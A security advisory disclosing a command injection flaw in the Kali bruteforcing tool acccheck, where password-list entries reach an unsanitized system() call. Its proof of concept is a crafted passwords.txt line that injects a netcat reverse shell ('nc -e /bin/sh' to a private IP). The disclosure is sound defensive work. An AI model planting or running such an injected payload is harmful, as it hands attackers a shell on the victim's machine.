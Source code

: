 # Never trust the password lists

## Summary

Penetration testers often download password lists from external sources to use them in their bruteforcing tools. A very quick audit of some bruteforcing tools provided with Kali Linux show that a few of them show vulnerabilities where using maliciously crafted password lists could be dangerous.

`acccheck` is one of these tool, which is vulnerable to command injection.

Penetration testers should always audit their username and password bruteforcing lists before using them.

## Description

From the source code: 

```
Attempts to connect to the IPC$ and ADMIN$ shares depending on which flags have been
chosen, and tries a combination of usernames and passwords in the hope to identify
the password to a given account via a dictionary password guessing attack.
```

The tool can be obtained at [https://labs.portcullis.co.uk/tools/acccheck/](https://labs.portcullis.co.uk/tools/acccheck/).


## Vulnerability

The tools is vulnerable to command injection due to a lack of sanitization of user input.

By feeding a specific user or password list, arbitrary code can be executed.

Example of vulnerable code:

```
foreach $singlePass (@PASS_LIST)                                          
      {                                                                         
        chomp($singlePass);                                                     
        output("Host:$singleIp, Username:Administrator, Password:'$singlePass'");
        $connectValue = system("smbclient \\\\\\\\$singleIp\\\\admin\$ -U Administrator%'$singlePass' -c 'exit' 1> /dev/null 2> /dev/null");
```

$singlePass and $singleIP are retreived from the username and password file.

## Proof of concept

```
root@kali:~# cat passwords.txt 
admin
test
';printf 'nc -e /bin/sh 192.168.1.254 80' > /tmp/pwned ; sh /tmp/pwned & #
```

```
root@kali:~# acccheck -t 192.168.1.1 -P passwords.txt
```

## Recommendations

1. Usernames and passwords provided per lists should be correctly escaped before inserted in the prepared statement.

2. Username and password lists from unknown sources should never be trusted and always be audited before use.
